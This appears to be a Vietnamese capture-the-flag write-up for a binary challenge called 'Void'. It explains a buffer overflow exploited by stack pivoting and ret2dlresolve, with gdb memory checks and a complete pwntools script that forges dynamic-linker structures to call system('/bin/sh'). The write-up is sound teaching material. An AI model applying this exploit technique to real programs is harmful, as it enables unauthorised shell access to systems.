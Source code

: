# Void

## Source

```c
ssize_t vuln()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  return read(0, buf, 200uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vuln();
  return 0;
}
```

## Ý tưởng

- Bài này chỉ cho ta một hàm vuln chỉ để đọc và có lỗi BOF, thường ta sẽ nghĩ đến ret2dlresolve
- vmmap được địa chỉ 0x40400 nên ret2dlresolve khá là oke
- Các bước
  - Stage 1: Stack pivot
  - Stage 2: Create structures
  - Stage 3: Get shell

## Thực thi

- Đầu tiên ta cần một vùng địa chỉ là có quyền ghi (thường base + 0xa00) (ban đầu mình chọn thấp hơn nên lỗi lúc getshell)
- Và các gadget sau

```python
leave_ret = 0x0000000000401141
pop_rbp = 0x0000000000401109
pop_rdi = 0x00000000004011bb
pop_rsi_r15 = 0x00000000004011b9
rw_section = 0x00000000404a00
offset = 72
```

- rồi chúng ta set up hàm read nhằm đưa shell dlresolve vào vùng ghi được

```python
payload = b"a" * (offset-8)
# set up read
payload += flat(
    rw_section,
    pop_rsi_r15,
    rw_section, 0,
    exe.plt['read'],
    leave_ret
)
payload = payload.ljust(200)
s(payload)
```

- Tại sao phải offset - 8, ban đầu mình tính payload như này, thì nó bị sigbus

```python
payload = b"a" * (offset)
# set up read
payload += flat(
    # rw_section,
    pop_rsi_r15,
    rw_section, 0,
    exe.plt['read'],
    leave_ret
)
payload = payload.ljust(200)
s(payload)
```

- Do thanh rbp truy cập một vùng nhớ không tồn tại trong bộ nhớ (SIGBUS), do đó ta cần đưa rbp nhận một địa chỉ là rw-section để rip nằm dưới rbp sẽ là shell của mình

## Stage 2: Create structures

- Tiếp đến ta cần tìm địa chỉ sau bằng lệnh info file

```python
# JMPREL          0x0000000000400430 - 0x0000000000400448 is .rela.plt
# SYSTAB          0x0000000000400330 - 0x0000000000400390 is .dynsym
# STRTAB          0x0000000000400390 - 0x00000000004003d6 is .dynstr
# dlresolve       0x0000000000401020 - 0x0000000000401040 is .plt
JMPREL = 0x0000000000400430
SYMTAB = 0x0000000000400330
STRTAB = 0x0000000000400390
dlresolve = 0x0000000000401020
```

- Sau đó ta tìm các địa chỉ sau, ta nên lùi sau 0x50 so với rw_section vì trong 0x50 byte đó ta cần để 1 số gì đó. Và các địa chỉ đó thoả mãn các điều kiện sau và `symbol_number, reloc_arg, st_name` là số nguyên

```python
symbol_number = int((SYMTAB_addr - SYMTAB)/24)
reloc_arg = int((JMPREL_addr - JMPREL)/24)
st_name = STRTAB_addr - STRTAB
```

### SYMTAB struct

```python
st_info = 0x12
st_other = 0
st_shndx = 0
st_value = 0
st_size = 0
SYMTAB_struct = p32(st_name) \
    + p8(st_info) \
    + p8(st_other) \
    + p16(st_shndx) \
    + p64(st_value) \
    + p64(st_size)
```

### JMPREL struct

```python
r_offset = 0x404300                                 # tuỳ ý, trong vùng rw_section là được
r_info = (symbol_number << 32) | 7
r_addend = 0
JMPREL_struct = flat(r_offset, r_info, r_addend)
```

## Stage 3: Get shell

- Để đặt được các struct ta có thể làm như sau, đâu tiên là như này trước

```python
payload = flat(
    b'A'*8,         # Fake rbp
    pop_rsi_r15,    # rip
    0,
    0,
    pop_rdi,
    0x404a98,        # String /bin/sh

    dlresolve,
    reloc_arg,       # Reloc_arg

    0x1, 0x2, 0x3, 0x4, 0x5, 0x6, 0x7, 0x8, 0x8, 0x10
)
```

- Ta dừng ở đây để kiểm tra
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/85155d12-1b4c-4d56-a71e-80405595ed42)
- Đầu tiên kiểm tra $rsp

```
gef➤  x/xg $rsp
0x404a38:       0x00000000000002ed
# <JMPREL> + 0x2ed*24
gef➤  x/3xg 0x0000000000400430+0x2ed*24
0x404a68:       0x0000000000000006      0x0000000000000007
0x404a78:       0x0000000000000008
```

- Đó z JMPREL_struct của chúng ta se ở 0x6 `0x1, 0x2, 0x3, 0x4, 0x5, JMPREL_struct, 0x7, 0x8, 0x8, 0x10`
- Chạy lại chương trình

```
gef➤  x/3xg 0x0000000000400430+0x2ed*24
0x404a68:       0x0000000000404300      0x000002f600000007
0x404a78:       0x0000000000000000
# <SYMTAB> + (0x000002f600000007>>32)*24
gef➤  x/3xg 0x0000000000400330 + (0x000002f600000007>>32)*24
0x404a40:       0x0000000000000001      0x0000000000000002
0x404a50:       0x0000000000000003
gef➤  x/3xg 0x0000000000400330 + (0x000002f600000007>>32)*24
0x404a40:       0x0000001200004700      0x0000000000000000
0x404a50:       0x0000000000000000
# <STRTAB> + 0x4700
gef➤  x/xg 0x0000000000400390+0x4700
0x404a90:       0x0000000000000007
```

- `STRTAB` nhận vào chữ system nên tại 0x7 ta để là system và ngay sau chữ `b'system\x00\x00'` là /bin/sh
- phải bỏ đúng 8 byte nha, mình gặp lỗi `system\0` có 7 byte thì kí tự `/` bị đưa nhầm vào.

```
gef➤  x/s 0x0000000000400390+0x4700
0x404a90:       "system"
gef➤  x/s 0x0000000000400390+0x4700+8
0x404a98:       "bin/sh"
```

- Check lại một lần nữa, hình như hơi lệnh nên ta cứ chỉnh thoi =)))

```
gef➤  x/3xg 0x0000000000400430+0x2ed*24
0x404a68:       0x0000000000000004      0x0000000000000005
0x404a78:       0x0000000000404300
```

- Cuối cùng ra gần giống như này là oke

```
gef➤  x/xg $rsp
0x404a38:       0x00000000000002ed
gef➤  x/3xg 0x0000000000400430+0x2ed*24
0x404a68:       0x0000000000404300      0x000002f600000007
0x404a78:       0x0000000000000000
gef➤  x/3xg 0x0000000000400330 + (0x000002f600000007>>32)*24
0x404a40:       0x0000001200004700      0x0000000000000000
0x404a50:       0x0000000000000000
gef➤  x/s 0x0000000000400390+0x4700
0x404a90:       "system"
gef➤
```

## Get flag

<details> <summary> script </summary>

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('void', checksec=False)

context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
                b*vuln+32

                c
                ''')
        input()


def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('')
else:
    p = process(exe.path)

GDB()
############################
### Stage 1: Stack pivot ###
############################
leave_ret = 0x0000000000401141
pop_rbp = 0x0000000000401109
pop_rdi = 0x00000000004011bb
pop_rsi_r15 = 0x00000000004011b9
rw_section = 0x00000000404a00
offset = 72
payload = b"a" * (offset-8)
# set up read
payload += flat(
    rw_section,
    pop_rsi_r15,
    rw_section, 0,
    exe.plt['read'],
    leave_ret
)
payload = payload.ljust(200)
s(payload)

#####################################
### Stage 2: Create structures  #####
#####################################
# JMPREL          0x0000000000400430 - 0x0000000000400448 is .rela.plt
# SYSTAB          0x0000000000400330 - 0x0000000000400390 is .dynsym
# STRTAB          0x0000000000400390 - 0x00000000004003d6 is .dynstr
# dlresolve       0x0000000000401020 - 0x0000000000401040 is .plt
JMPREL = 0x0000000000400430
SYMTAB = 0x0000000000400330
STRTAB = 0x0000000000400390
dlresolve = 0x0000000000401020

SYMTAB_addr = 0x404a50
JMPREL_addr = 0x404a70
STRTAB_addr = 0x404a90

symbol_number = int((SYMTAB_addr - SYMTAB)/24)
reloc_arg = int((JMPREL_addr - JMPREL)/24)
st_name = STRTAB_addr - STRTAB

st_info = 0x12
st_other = 0
st_shndx = 0
st_value = 0
st_size = 0
SYMTAB_struct = p32(st_name) \
    + p8(st_info) \
    + p8(st_other) \
    + p16(st_shndx) \
    + p64(st_value) \
    + p64(st_size)

r_offset = 0x404300
r_info = (symbol_number << 32) | 7
r_addend = 0
JMPREL_struct = flat(r_offset, r_info, r_addend)

payload = flat(
    b'A'*8,          # Fake rbp
    pop_rsi_r15,
    0,
    0,
    pop_rdi,
    0x404a98,        # String /bin/sh

    dlresolve,
    reloc_arg,       # Reloc_arg

    SYMTAB_struct,
    0,
    0,
    JMPREL_struct,
    0,
    0,
    b'system\x00\x00',
    b'/bin/sh\x00'
)
p.send(payload)
p.interactive()

```

</details>

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/a7af6139-7bb5-401c-87cf-20c3b6e1109c)
